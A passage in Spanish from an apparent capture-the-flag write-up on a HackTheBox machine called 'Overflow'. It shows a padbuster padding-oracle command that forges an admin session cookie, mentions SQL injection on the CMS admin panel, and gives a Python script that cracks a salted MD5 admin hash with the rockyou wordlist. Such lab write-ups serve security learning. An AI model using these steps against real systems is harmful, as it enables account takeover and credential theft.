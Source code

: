 Ahora tenemos que acceder al cms, a traves del boton de admin panel.

Lo siguiente que podemos intentar es obtener la contrasena de admin, que no es necesario porque rapidamente podemos brincar al otro paso:

```s
padbuster http://overflow.htb/home/index.php -cookies "auth=7O5yXmlk%2Fjlk0ZW53DbJJfJt2Hb0ECG8" 8 -plaintext user=admin
```

Si fuzzeamos el directorio de cms, podemos ahora ver que existe el archivo /admin_cms_panel/doc/CHANGELOG.txt y por otro lado donde estaremos aplicando las inyecciones de SQL que estan en el ejemplo de SQLI en el blog:

![SQLI](/assets/images/Overflow/admin_hash.png)

Ahora hemos conseguido el hash de administrador que guardaremos en un archivo llamado credentials, que intentaremos crackear con john, para saber el tipo de hash es hay una herramienta llamada hashid y en seguida solo habra que meter el hash. Guiado con el exploit de metasploit para el cms, haremos un pequeno script en python que nos ayude a crackear este hash.

```py
#!/usr/bin/python3

import hashlib

salt='6c2d17f37e226486'
password2='c6c6b9310e0e6f3eb3ffeb2baff12fdd'
password1='e3d748d58b58657bfa4dffe2def0b1c7'
dictionary = '/usr/share/wordlists/rockyou.txt'

f = open(dictionary, "rb")

for possible_pass in f.readlines(): 
    possible_pass = possible_pass.strip()

    if hashlib.md5(salt.encode() + possible_pass).hexdigest() == password1:

        print("[+] La password admin es %s" % possible_pass.decode()) 
        break

```
